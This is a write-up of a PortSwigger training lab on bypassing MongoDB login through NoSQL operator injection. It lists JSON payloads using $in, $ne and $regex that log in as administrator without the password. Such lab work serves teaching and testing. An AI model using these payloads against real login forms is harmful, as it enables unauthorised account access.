



# Exploiting NoSQL operator injection to bypass authentication

**Lab Url**: [https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication)



## Analysis

The login functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection using MongoDB operators.

*MongoDB operators are special keywords used in queries and aggregation pipelines to perform various operations on data, including filtering, sorting, transforming, and manipulating documents. You can find more information [here](https://www.mongodb.com/docs/manual/reference/operator/).*

After examining the login page of this website it is concluded that the website sends username and password via `POST` request using `JSON` payload.

For URL-based inputs, you can insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`.  But since this application uses JSON data type we have to inject query operators in the JSON.

```json
{"username":{"$in":["administrator"]},"password":{"$ne":""}}
```

This payload will match any username of the value `administrator`, where the **password is not an empty string**.
**Hmm, It didn't work perhaps the username is not quite correct let's add other possible usernames.**

```json
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

It also didn't work let's try the payload with a known username. The payload was successful. So the problem is not with payload but with an invalid username. **It seems that we have to guess the correct value of the username.**

```json
{"username":"wiener","password":{"$ne":""}}
```

Mongodb has a built-in `$regex` operator that we can use to guess our username. First, let's try it out with known credentials.

```json
{"username":{"$regex": "wien*"},"password":{"$ne":""}}
```

The payload was successful we were able to login. Let's try it match admin username.

```json
{"username":{"$regex": "admin*"},"password":{"$ne":""}}
```

Sweet, we successfully login as administrator user.




